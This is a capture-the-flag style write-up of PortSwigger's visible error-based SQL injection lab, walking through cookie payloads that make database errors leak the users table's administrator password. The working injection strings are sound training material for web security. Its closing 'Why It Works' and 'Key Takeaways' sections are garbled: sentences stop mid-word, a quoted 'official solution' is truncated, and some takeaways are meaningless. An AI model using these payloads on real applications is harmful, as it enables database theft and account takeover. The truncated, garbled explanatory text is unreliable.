

# Visible error-based SQL injection

1. using Burp's built-in browser, explore the lab functionality.
1. Go to the **Proxy > HTTP history** tab and find a `GET /` request that contains a `TrackingId` cookie.
1. In Repeater, append a single quote to the value of your `TrackingId` cookie and send the request. `TrackingId=ogAZZfxtOKUELbuJ'`

In the response, notice the verbose error message. 



This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal.Observe that your injection appears inside a single-quoted string.

1. In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error: `TrackingId=ogAZZfxtOKUELbuJ'--`
Send the request. Confirm that you no longer receive an error. This suggests that the query is now syntactically valid.

1. Adapt the query to include a generic `SELECT` subquery and cast the returned value to an `int` data type: `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
Send the request. Observe that you now get a different error saying that an `AND` condition must be a boolean expression.

1. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.

1. Adapt your generic `SELECT` statement so that it retrieves usernames from the database: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.

1. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request. `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
1. Notice that you receive a new error message,which appears to be generated by the database. 

This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.

1. Modify the query to return only one row: `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
1. Send the request. Observe that the error message now leaks the first username from the `users` table: `ERROR: invalid input syntax for type integer: "administrator"`
1. Now that you know that the `administrator` is the first user in the table, modify the query once again to leak their password: `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
1. Log in as `administrator` using the stolen password to solve the lab.

### Why It Works

The exploit succeeds because this lab contains a sql injection vulnerability. the application uses a tracking cookie for analytics, and performs a sql query containing the value of the submitted cookie. the results of the sql que

The official solution confirms: Using Burp's built-in browser, explore the lab functionality. Go to the Proxy &gt; HTTP history tab and find a GET / request that contains a TrackingI

The root cause is a failure in the application's security architecture specific to this sql injection scenario — the server does not properly validate or secure the user-controlled input that reaches the vulnerable operation.

### Key Takeaways

- This lab contains SQL, demonstrating how sql injection vulnerabilities manifest in real applications.
- The vulnerability is exploitable because user input reaches a sensitive operation without adequate server-side validation.
- PortSwigger confirms: "This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytic"
- Server-side validation and authorization are the primary defenses.

## PortSwigger Lab

**Official lab:** Visible error-based SQL injection

**PortSwigger:** https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based
